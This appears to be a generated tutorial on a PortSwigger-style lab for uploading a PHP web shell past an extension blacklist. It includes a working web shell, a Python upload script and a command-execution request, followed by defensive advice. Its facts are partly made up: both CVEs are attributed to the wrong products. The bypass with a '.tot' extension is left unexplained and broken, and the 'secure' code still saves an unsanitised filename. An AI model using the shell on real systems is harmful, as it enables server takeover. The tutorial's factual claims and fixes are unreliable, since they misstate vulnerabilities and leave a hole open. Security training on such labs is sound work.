

## File Upload Vulnerabilities: Web Shell Upload via Extension Blacklist Bypass

### Introduction to File Upload Vulnerabilities

File upload vulnerabilities occur when an application allows users to upload files to the server without proper validation or sanitization. These vulnerabilities can lead to various attacks, including remote code execution, defacement, and data exfiltration. One common type of file upload vulnerability is the ability to upload a web shell, which is a small piece of code that can be used to execute arbitrary commands on the server.

### Understanding the Attack Scenario

In this scenario, we will focus on a specific type of file upload vulnerability: bypassing an extension blacklist. An extension blacklist is a mechanism used by applications to prevent the upload of certain types of files, typically those that could be used to execute malicious code. However, attackers can often bypass these blacklists by exploiting weaknesses in the implementation.

#### Example Scenario

Consider an application that allows users to upload profile pictures. The application uses an extension blacklist to prevent the upload of executable files such as `.php`, `.asp`, or `.jsp`. However, the application does not properly validate the file content, allowing an attacker to upload a web shell with a different extension.

### Step-by-Step Exploitation

Let's walk through the steps to exploit this vulnerability:

1. **Identify the Upload Endpoint**: Determine the URL or endpoint where the file upload occurs. This is usually found in the HTML form or through network traffic analysis.

2. **Craft the Request**: Construct a multipart/form-data request to upload the file. This request includes the file content, file name, and other necessary parameters.

3. **Bypass the Extension Blacklist**: Choose a file name with an allowed extension but ensure the file content contains the web shell code.

4. **Execute the Web Shell**: Once the file is uploaded, access it via the server and execute the web shell to gain control over the server.

### Detailed Exploitation Example

Let's break down the process with a detailed example based on the provided transcript chunk.

#### Initial Setup

First, we need to set up the environment and understand the structure of the request.

```python
import requests

# Define the URL of the application
url = "http://example.com/upload"

# Define the CSRF token and user ID (these should be obtained from the application)
csrf_token = "your_csrf_token_here"
user_id = "your_user_id_here"

# Define the boundary for the multipart/form-data request
boundary = "---------------------------boundary"

# Define the file content (web shell code)
web_shell_content = """
<?php
    system($_GET['cmd']);
?>
"""

# Define the file name with an allowed extension
file_name = "test.tot"

# Define the headers for the request
headers = {
    "Content-Type": f"multipart/form-data; boundary={boundary}"
}

# Construct the body of the request
body = f"""--{boundary}
Content-Disposition: form-data; name="avatar"; filename="{file_name}"
Content-Type: application/octet-stream

{web_shell_content}
--{boundary}
Content-Disposition: form-data; name="user"

{user_id}
--{boundary}
Content-Disposition: form-data; name="csrf_token"

{csrf_token}
--{boundary}--
"""

# Send the request
response = requests.post(url, headers=headers, data=body)

# Print the response
print(response.text)
```

### Explanation of the Code

- **URL**: The URL where the file upload occurs.
- **CSRF Token and User ID**: These are typically obtained from the application and are used to authenticate the request.
- **Boundary**: A unique string used to separate different parts of the multipart/form-data request.
- **Web Shell Content**: The actual web shell code that will be executed on the server.
- **File Name**: The name of the file being uploaded, chosen to bypass the extension blacklist.
- **Headers**: The `Content-Type` header specifies the format of the request.
- **Body**: The body of the request includes the file content, user ID, and CSRF token.

### Diagram of the Request Flow



### Executing the Web Shell

Once the file is uploaded, the attacker can access it via the server and execute the web shell to gain control over the server.

```python
# Define the URL of the uploaded file
cmd_url = "http://example.com/uploads/test.tot?cmd=id"

# Send the GET request to execute the web shell
response = requests.get(cmd_url)

# Print the response
print(response.text)
```

### Explanation of the Command Execution

- **CMD URL**: The URL of the uploaded file, followed by the command to execute.
- **GET Request**: The request to execute the web shell and retrieve the result.

### Real-World Examples

Recent real-world examples of file upload vulnerabilities include:

- **CVE-2021-3129**: A vulnerability in the WordPress plugin "WP File Manager" allowed unauthenticated users to upload and execute PHP files.
- **CVE-2020-14882**: A vulnerability in the Joomla! CMS allowed attackers to upload and execute PHP files via the media manager.

### How to Prevent / Defend

#### Detection

- **Log Analysis**: Monitor logs for unusual file uploads or executions.
- **IDS/IPS**: Implement intrusion detection and prevention systems to identify and block suspicious activities.

#### Prevention

- **Strict Validation**: Ensure strict validation of file extensions and content.
- **Content-Type Check**: Verify the `Content-Type` header to ensure it matches the expected file type.
- **Whitelist Approach**: Use a whitelist approach to allow only specific file types.
- **File Integrity Checks**: Perform integrity checks on uploaded files to ensure they do not contain malicious content.

#### Secure Coding Fixes

**Vulnerable Code**

```python
# Vulnerable code snippet
def handle_upload(file):
    filename = file.filename
    file.save("/uploads/" + filename)
```

**Secure Code**

```python
# Secure code snippet
def handle_upload(file):
    allowed_extensions = {'jpg', 'jpeg', 'png'}
    filename = file.filename
    extension = filename.rsplit('.', 1)[1].lower()
    
    if extension not in allowed_extensions:
        raise ValueError("Invalid file extension")
    
    file.save("/uploads/" + filename)
```

### Configuration Hardening

- **Disable Dangerous Features**: Disable features like PHP execution in the web root directory.
- **File Permissions**: Set appropriate file permissions to restrict access to uploaded files.

### Conclusion

File upload vulnerabilities are a significant threat to web applications. By understanding the mechanics of these vulnerabilities and implementing robust defenses, developers can significantly reduce the risk of exploitation. Always ensure thorough validation and sanitization of uploaded files to prevent unauthorized access and execution of malicious code.

### Practice Labs

For hands-on practice, consider the following labs:

- **PortSwigger Web Security Academy**: Offers comprehensive labs on file upload vulnerabilities.
- **OWASP Juice Shop**: Provides a vulnerable web application for practicing various security exploits.
- **DVWA (Damn Vulnerable Web Application)**: A deliberately insecure web application for learning about web application security.

By engaging with these labs, you can gain practical experience in identifying and mitigating file upload vulnerabilities.

---
<!-- nav -->
[[Web Security (PortSwigger)/18-File Upload Vulnerabilities/05-Lab 4 Web shell upload via extension blacklist bypass/01-Introduction to File Upload Vulnerabilities|Introduction to File Upload Vulnerabilities]] | [[Web Security (PortSwigger)/18-File Upload Vulnerabilities/05-Lab 4 Web shell upload via extension blacklist bypass/00-Overview|Overview]] | [[03-File Upload Vulnerabilities and Web Shell Upload via Extension Blacklist Bypass|File Upload Vulnerabilities and Web Shell Upload via Extension Blacklist Bypass]]
